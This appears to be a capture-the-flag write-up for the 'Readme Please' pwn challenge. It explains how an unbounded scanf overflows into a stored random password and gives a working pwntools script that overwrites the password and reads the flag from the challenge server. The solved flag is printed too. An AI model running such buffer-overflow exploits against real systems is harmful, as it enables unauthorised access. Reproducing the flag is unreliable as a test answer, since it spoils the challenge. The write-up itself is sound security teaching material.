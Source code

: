 https://ctftime.org/event/2647

# Readme Please (pwn)

I made a very secure file reading service.

nc readme-please.ctf.pearlctf.in 30039

## Analysis

`main` @ `0x140d`

- Populates `local_98` with a random password
- In a loop:
- Asks for a file to open by name
- If the file is called `flag.txt` it checks the password by calling `scanf("%s", local_108)`
    - This allows us to overflow the buffer into the password at `local_98`

## Solution

1) Try to open the flag
2) Supply a password such that the password buffer now starts with b"A\x00"
3) Try to open the flag again
4) Supply b"A\x00" as the password

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./main", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("readme-please.ctf.pearlctf.in", 30039)

p.sendlineafter(b"file name:", b"files/flag.txt")

payload = b"A" * ((0x108 - 0x98) + 1)
p.sendlineafter(b"Enter password: ", payload)

p.sendlineafter(b"file name:", b"files/flag.txt")

payload = b"A"
p.sendlineafter(b"Enter password: ", payload)

print(p.readuntil(b"}").decode()) # pearl{f1l3_d3script0rs_4r3_c00l}
```

## Flag
`pearl{f1l3_d3script0rs_4r3_c00l}`

smiley 2025/03/07
